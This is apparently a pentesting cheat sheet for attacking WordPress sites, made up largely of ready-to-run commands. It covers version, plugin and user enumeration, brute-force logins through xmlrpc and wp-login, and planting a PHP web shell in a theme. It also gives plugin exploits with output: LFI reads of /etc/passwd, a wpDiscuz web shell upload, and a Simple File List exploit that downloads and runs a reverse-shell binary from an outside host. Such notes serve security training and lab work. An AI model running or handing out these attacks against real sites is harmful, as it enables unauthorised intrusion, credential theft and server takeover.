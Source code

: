 # WordPress

## General

{% hint style="info" %}
[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)
{% endhint %}

```shell
# Web root
/wp-admin
    admin.php
/wp-content
    /themes
    /plugins
/wp-includes
index.php
license.txt
readme.html
wp-activate.php
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-cron.php
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
.htaccess
wp-config.php # database info
```

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Enumeration

{% tabs %}
{% tab title="Manual" %}
{% code overflow="wrap" %}
```bash
# Version
curl -s example.com | grep '<meta name="generator"'

# Themes
curl -s example.com | grep themes

# Plugins
curl -s example.com | grep plugins
sudo wpscan -t 20 --url http://readys -e ap --plugins-detection aggressive

# Plugin version (requires Directory listing to be enabled)
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}

{% tab title="wpscan" %}
[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

{% code overflow="wrap" %}
```bash
# Update database
wpscan --update

# General enumeration
sudo wpscan --url example.com --enumerate --api-token <TOKEN>

# Modify agent for WAF evasion
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

### BFA

`wp-login.php` is the standard login form that accepts one login attempt per request. `xmlrpc.php` allows login via API calls and can bundle many attempts in one request, making brute-force faster. Even if `wpscan` outputs that XML-RPC is enabled, login-related methods may be blocked by plugins or server settings, so attacks through it can fail while `wp-login` attacks still work.

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`&#x20;

{% code overflow="wrap" %}
```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted BFA using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou

# Targeted BFA using wp-login
sudo wpscan --password-attack wp-login -t 20 --url http://example.com -U james -P cewl_tokens.txt
```
{% endcode %}

### RCE

{% tabs %}
{% tab title="Manual" %}
Modify an inactive theme (for avoiding breaking the site) by inserting a PHP web shell:&#x20;

```php
<?php system($_GET['c']); ?>
```

<figure><img src="../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

The same exact method can be done with Plugins:

{% hint style="warning" %}
Remeber to activate the plugin after: _Plugins_ → _Installed Plugins_ → _Activate_.
{% endhint %}

<figure><img src="../../.gitbook/assets/wp_rce_2.png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="MSF" %}
MSF's [`wp_admin_shell_upload`](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module can be used:

```bash
# use module (make sure to set VHOST if needed)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

## Plugins

{% tabs %}
{% tab title="mail-masta" %}
No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

{% code overflow="wrap" %}
```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

{% code overflow="wrap" %}
```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="wpDiscuz" %}
wpDiscuz version `7.0.4` contains a **file upload vulnerability** **that can lead to unauthenticated remote code execution** ([CVE-2020-24186](https://nvd.nist.gov/vuln/detail/CVE-2020-24186)). Although the plugin is meant to accept only image attachments in comments, its MIME type validation can be bypassed, allowing a PHP file to be uploaded and executed. Exploitation requires a valid post with comments enabled.

The [PoC](https://www.exploit-db.com/exploits/49967) takes two arguments: `-u` for the target URL and `-p` for the path to a comment-enabled post. Once executed, the script uploads the payload and returns the file path for remote code execution.

{% hint style="warning" %}
The default PoC may fail, but `curl` can be used to interact with the uploaded webshell.
{% endhint %}

{% code overflow="wrap" %}
```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...

$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}
{% endtab %}

{% tab title="simple-file-list" %}
Simple File List plugin < `4.2.3` is vulnerable to an **unauthenticated RCE** flaw ([CVE-2025-34085](https://nvd.nist.gov/vuln/detail/CVE-2025-34085/change-record?changeRecordedOn=07/16/2025T12:15:26.130-0400)). Despite being designed to allow file uploads, the plugin fails to properly validate files after they are renamed. An attacker can upload a file with a benign extension (e.g., `.png`) that actually contains PHP code. Using a vulnerable script within the plugin, the file can then be renamed to `.php` and accessed directly, resulting in full remote code execution. The available [PoC](https://github.com/B1ack4sh/Blackash-CVE-2025-34085) allows direct RCE via the `--cmd` parameter:&#x20;

{% code overflow="wrap" %}
```bash
# Transfer a reverse shell payload
$ python3 CVE-2025-34085.py -u http://nukem --cmd "wget http://192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Make the file executable
$ python3 CVE-2025-34085.py -u http://nukem --cmd "chmod +x /tmp/revshell.elf"

# Execute the file
$ python3 CVE-2025-34085.py -u http://nukem --cmd "/tmp/revshell.elf"
```
{% endcode %}
{% endtab %}

{% tab title="Site Editor" %}
The Site Editor plugin, up to version `1.1.1`, is vulnerable to an unauthenticated LFI flaw ([CVE-2018-7422](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422)) via the `ajax_path` parameter in the `ajax_shortcode_pattern.php` script, part of its PageBuilder extension. This endpoint fails to sanitize input, allowing attackers to include arbitrary files using absolute paths.

{% code overflow="wrap" %}
```bash
$ searchsploit WordPress Site Editor
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion | php/webapps/44340.txt

$ curl -s --path-as-is "http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd"
```
{% endcode %}
{% endtab %}
{% endtabs %}

